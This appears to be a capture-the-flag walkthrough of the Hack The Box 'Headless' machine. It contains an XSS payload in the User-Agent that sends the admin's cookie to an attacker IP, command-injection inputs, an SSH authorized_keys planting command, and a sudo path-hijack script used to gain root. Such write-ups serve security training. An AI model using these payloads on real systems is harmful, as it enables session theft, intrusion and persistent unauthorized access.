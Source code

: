 HTB Machine

First, enumerate the box.

```
# Nmap 7.94SVN scan initiated Sat Mar 23 15:05:10 2024 as: nmap -p- -sC -sV -oA headless -v headless.htb
Nmap scan report for headless.htb (10.129.236.174)
Host is up (0.12s latency).
Not shown: 65305 closed tcp ports (reset), 228 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
...
```

Looking at the site, we can see that it has a support page. fuzzing the directories also gives us `dashboard` as a subdirectory to visit. but later. Also worth observing, we have a cookie set called `is_admin`. decoding the cookie from base64 gets "user" in the first part, and garbage in the second part. lets assume its a hash for now.

We can see on the support page, that there is an email we can visit. if we try XSS, we can see theres a "hacking detected" page. from there, we can see that the page displays all of everything we have in the headers. so if we give an xss in our header, we can see if the admin will give us their cookies.

first, in the message, lets give the message as `<script>alert(1)</script>` to trigger the hacking detection.

then, in the user agent, lets change it to
```html
<script>fetch(`http://10.10.14.176/${document.cookie}`)</script>
```

run `updog -p 80`

```
$ updog -p 80                 
[+] Serving /home/kali/htb/machines/headless...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://192.168.80.128:80
Press CTRL+C to quit
10.129.236.174 - - [23/Mar/2024 16:12:40] "GET /is_admin=[cookie] HTTP/1.1" 302 -
```

And this gets you the admin cookie. change your cookie to the admin cookie you just got from `updog`

then go to `/dashboard`.

From here, you can do a command injection on the "Generate a website report" input field.

in burpsuite, give it `;whoami` to verify the command injection works.
```html
   <div id="output-content" style="background-color: green; color: white; padding: 10px; border-radius: 5px;">
        Systems are up and running!
		dvir
```

and then use `;cat ~/user.txt` to get user!

to get shell, you can use a reverse shell, or you can feed your public key to `~/.ssh/authorized keys` with `; echo "[your id_xxx.pub, make sure to URL encode it]" > ~/.ssh/authorized_keys`

with that out of the way, using a simple `sudo -l` will show us...
```
dvir@headless:~/app$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

and this file is...
```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0

```

Seems like, if we have our own `initdb.sh` doing anything, we can get root

```bash
#!/bin/bash
cat /root/root.txt #or you can execute anything you want, like adding your key to root's authorized_keys
```

make sure to make the script executable!

and we got root!

https://www.hackthebox.com/achievement/machine/158887/594